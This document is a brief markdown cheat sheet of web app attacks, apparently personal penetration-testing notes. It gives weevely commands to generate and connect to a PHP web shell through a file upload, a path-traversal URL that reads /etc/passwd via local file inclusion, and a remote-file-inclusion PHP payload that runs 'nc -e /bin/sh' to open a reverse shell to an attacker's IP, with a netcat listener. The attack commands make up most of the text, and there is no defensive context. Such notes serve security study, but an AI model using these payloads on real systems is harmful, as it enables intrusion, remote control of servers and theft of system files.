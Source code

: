 ```yaml
---
title: Web App Vulnerabilities
---
```


### File Upload Vulnerability

1. <u>Generate PHP Shell</u>

````bash
weevely generate <password> <output-file>
````

2. <u>Connect to Shell</u>

````bash
weevely <path-to-script> <password>
````

---

### Code Execution Vulnerability

Allows to perform OS specific commands on the Web App  
Multiple Linux commands can be separated using ";"

#### Reverse Shell in Different Languages

[Reverse Shell Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

The IP Address in the above commands is the attacker IP Address

---

### Local File Inclusion Vulnerability

Allows to read files that are outside the Server Folder (www/html/)  
If the current page loads another page for displaying content we could use this exploit

URL : `http://<website>/<path>/?page=<filename>`  
Modified : `http://<website>/<path>/?page=../../../../../../etc/passwd`

---

### Remote File Inclusion Vulnerability

<u>Config Required</u>  
/etc/php5/cgi/php.ini  
allow_url_fopen = On  
sllow_url_include = On

<u>Create PHP Script</u>

````php
<?php
	passthru("nc -e /bin/sh <ip-address> <port>")
?>
````

The script should be saved as an .txt file (Else file will get run on our device)  
The Remote Server should be accessible by the Target Website

<u>Start Listener</u>

````bash
nc -vv -lp <port>
````

URL : `http://<website>/<path>/?page=<filename>`  
Modified : `http://<website>/<path>/?page=<URL-to-remote-server>?`